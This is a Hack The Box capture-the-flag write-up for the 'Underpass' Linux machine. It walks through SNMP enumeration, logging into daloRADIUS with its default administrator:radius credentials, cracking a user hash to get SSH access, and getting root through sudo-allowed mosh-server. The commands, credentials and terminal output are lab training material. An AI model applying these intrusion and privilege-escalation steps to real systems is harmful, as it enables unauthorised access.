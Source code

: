 ```yaml
---
title: Underpass
layout: post
released: 2024-12-21
creators: dakkmaddy
pwned: true
tags: 
  - os/linux
  - diff/easy
category:
  - HTB
description: Underpass is running a default apache website. If we check udp ports we find that a daloradius is running. Looking through the source of daloradius we find a couple of login pages and default credentials. Using these credentials we login to a dashboard and find credentials for svcMosh. We use his credentials to ssh on the box. svcMosh can run Mosh-server as root which we can use to spawn a root terminal.
image: https://labs.hackthebox.com/storage/avatars/456a4d2e52f182847fb0a2dba0420a44.png
cssclass: custom_htb
---
```

![Underpass icon](https://labs.hackthebox.com/storage/avatars/456a4d2e52f182847fb0a2dba0420a44.png)

# Information Gathering
As usual let's start off with an `nmap` scan.
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
When we visit the website all we're greeted with is the default `apache` website.
![Default apache website](/assets/img/img_Underpass/Underpass-1746437564868.png)

```
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-info:
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: c7ad5c4856d1cf6600000000
|   snmpEngineBoots: 31
|_  snmpEngineTime: 2d15h28m13s
| snmp-sysdescr: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
|_  System uptime: 2d15h28m13.71s (22849371 timeticks)
Service Info: Host: UnDerPass.htb is the only daloradius server in the basin!
```

Looking up the term `daloradius` we see that it's a web platform to manage ISP deployments.

If we try to visit: `http://10.10.11.48/daloradius`. We get a forbidden webpage.
![Daloradius Forbidden](/assets/img/img_Underpass/Underpass-1746440428813.png)
Since [daloradius](https://github.com/lirantal/daloradius) is open source, we can look through directories in the source and check if they exist on the box.

Looking through the source we can see a login page: `/app/users/login.php`
![Daloradius Login Path](/assets/img/img_Underpass/Underpass-1746440607075.png)

If we visit http://10.10.11.48/daloradius/app/users/login.php we are greeted by said login page.

![Daloradius User Login Page](/assets/img/img_Underpass/Underpass-1746440648730.png)

# User
Looking through the [wiki](https://github.com/lirantal/daloradius/wiki/Installing-daloRADIUS#testing-the-infrastructure) we find the default credentials: `administrator`:`radius`. However, if we try this we see that we cannot login.

![Cannot Login Daloradius User](/assets/img/img_Underpass/Underpass-1746440793774.png)

If we take a look through the [wiki](https://github.com/lirantal/daloradius/wiki/Installing-daloRADIUS#installing-daloradius) again we find that it is mentioned in the previous sections the different endpoints for `operator` and `user`.

```bash
/etc/apache2/envvars
# daloRADIUS users interface port
export DALORADIUS_USERS_PORT=80

# daloRADIUS operators interface port
export DALORADIUS_OPERATORS_PORT=8000

# daloRADIUS package root directory
export DALORADIUS_ROOT_DIRECTORY=/var/www/daloradius  

# daloRADIUS administrator's email
export DALORADIUS_SERVER_ADMIN=admin@daloradius.local
```

Let's take a look at the source code again and find the directory `/app/operators/login.php`.

![Daloradius Operators Path](/assets/img/img_Underpass/Underpass-1746441057718.png)

If we visit http://10.10.11.48/daloradius/app/operators/login.php we are greeted with the exact same login page.

![Daloradius Operators Login](/assets/img/img_Underpass/Underpass-1746442054856.png)

If we attempt to use the same default credentials: `administrator`:`radius`. We get logged into the dashboard.

![Daloradius Dashboard](/assets/img/img_Underpass/Underpass-1746442166170.png)

Looking around the app if we go to `management` and select `list users`. We can see the user: `svcMosh`.
![Daloradius Users List](/assets/img/img_Underpass/Underpass-1746442236050.png)

We're provided with what looks to be a password hash of `412DD4759978ACFCC81DEAB01B382403`. Let's crack it with [crackstation](https://crackstation.net).

![Crackstation cracking the password](/assets/img/img_Underpass/Underpass-1746442317070.png)

We find we successfully get the credentials: 

`svcMosh`:`underwaterfriends`

Attempting to use these credentials to `ssh` into the machine is successful!

```bash
 ssh svcMosh@10.10.11.48
The authenticity of host '10.10.11.48 (10.10.11.48)' can't be established.
ED25519 key fingerprint is SHA256:zrDqCvZoLSy6MxBOPcuEyN926YtFC94ZCJ5TWRS0VaM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.48' (ED25519) to the list of known hosts.
svcMosh@10.10.11.48's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon May  5 10:51:36 AM UTC 2025

  System load:  0.0               Processes:             226
  Usage of /:   61.3% of 6.56GB   Users logged in:       0
  Memory usage: 11%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon May  5 08:03:59 2025 from 10.10.14.24
svcMosh@underpass:~$
```

Just like that we have `User`!

```bash
svcMosh@underpass:~$ ls -la
total 36
drwxr-x--- 5 svcMosh svcMosh 4096 Jan 11 13:29 .
drwxr-xr-x 3 root    root    4096 Dec 11 16:06 ..
lrwxrwxrwx 1 root    root       9 Sep 22  2024 .bash_history -> /dev/null
-rw-r--r-- 1 svcMosh svcMosh  220 Sep  7  2024 .bash_logout
-rw-r--r-- 1 svcMosh svcMosh 3771 Sep  7  2024 .bashrc
drwx------ 2 svcMosh svcMosh 4096 Dec 11 16:06 .cache
drwxrwxr-x 3 svcMosh svcMosh 4096 Jan 11 13:29 .local
-rw-r--r-- 1 svcMosh svcMosh  807 Sep  7  2024 .profile
drwxr-xr-x 2 svcMosh svcMosh 4096 Dec 11 16:06 .ssh
-rw-r----- 1 root    svcMosh   33 May  2 18:02 user.txt
```

# Root
Checking for our `sudo` permission we notice we are able to run `mosh-server` as `root`.

```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

[mosh](https://mosh.org/) server is part of the `Mobile Shell` suite which is a remote terminal application that runs through `UDP`.

Looking at the [usage](https://mosh.org/#usage) for `mosh` we can see that we can specify the server binary.

![Mosh usage](/assets/img/img_Underpass/Underpass-1746442684093.png)

Let's try to do this to run mosh using the following command.

```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
```

We get the following output.

```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
The authenticity of host 'localhost (<no hostip for proxy command>)' cant be established.
ED25519 key fingerprint is SHA256:zrDqCvZoLSy6MxBOPcuEyN926YtFC94ZCJ5TWRS0VaM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'localhost' (ED25519) to the list of known hosts.
Warning: SSH_CONNECTION not found; binding to any interface.
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon May  5 10:58:19 AM UTC 2025

  System load:  0.0               Processes:             233
  Usage of /:   61.2% of 6.56GB   Users logged in:       1
  Memory usage: 12%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings



root@underpass:~#
```

Just like that we have root!